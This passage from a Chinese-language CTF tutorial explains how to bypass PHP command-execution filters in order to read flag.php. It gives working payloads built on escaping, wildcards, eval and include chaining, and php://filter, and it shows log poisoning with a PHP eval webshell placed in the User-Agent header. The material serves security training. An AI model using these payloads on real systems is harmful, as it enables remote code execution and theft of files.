*说明：空字符串 `''` 可用来绕过某些字符过滤，`fla''g.php` 等价于 `flag.php`。*

## 3.3 `\`转义匹配绕过

```c
?c=system("tac fl\ag.php")
```

*说明：`\` 是 转义字符，通常用于转义后面的字符，在某些情况下，`fl\ag.php` 可能会被解释为 `flag.php`，即通过插入转义字符来避免直接匹配敏感词或绕过过滤*

## 3.4 `?`占位符绕过

```c
?c=system("tac f???????")
```

*说明：在很多操作系统的文件系统中，`?`被用作通配符，代表 任何单个字符。在 Linux 中，`f???????` 可以匹配任何以 `f` 开头并包含 7 个任意字符的文件名*

## 3.5 传参执行绕过

### 3.5.1 eval函数

```c
?c=eval($_GET[x]);&x=system("ls");
?c=eval($_GET[x]);&x=system("tac flag.php");
```

*`eval`函数执行任意php命令，这里利用`get`方式接受x参数，在传参中执行命令，而在这个`get`方式接受的参数并没有被过滤*
### 3.5.2 include函数

利用文件包含漏洞读取文件

```c
?c=include($_GET[x]);&x=php://filter/convert.iconv.UTF8.UTF16/resource=flag.php
```

*如果 `(` 和 `;` 被过滤， `%0a` 是 URL 编码中表示换行符（`\n`）的字符。从而使得 `include` 语句和 `$_GET[1]` 的处理被分开，从而绕过过滤机制，不过`include`函数这里不加`(`也是可以的
`php`遇到定界符关闭标签会自动在末尾加上一个分号。简单来说，就是`php`文件中最后一句在`?>`前可以不写分号。*
```c
?c=include%0a$_GET[1]?>&1=php://filter/convert.iconv.UTF8.UTF16/resource=flag.php
?c=include$_GET[1]?>&1=php://filter/convert.iconv.UTF8.UTF16/resource=flag.php
```
### 3.5.3 日志包含

既然能够执行文件包含，那么也可以包含日志文件，日志文件中会记录你的`UA`头，假设我们在`UA`头中写入后门代码，然后我们包含日志文件，那么就能通过后门代码读取文件，
```
http://576f2421-5308-45ef-9c2e-17454de9e09a.challenge.ctf.show/?c=include$_GET[1]?%3E&1=../../../../var/log/nginx/access.log
```
注意：需使用 http 协议，因为使用 https 时可能因 SSL 证书问题无法连接。

在请求中，把后门代码写入 User-Agent，如：
```php
?c=include$_GET[1]?>&1=../../../../var/log/nginx/access.log  
User-Agent:<?php eval($_POST['x']);?>
```
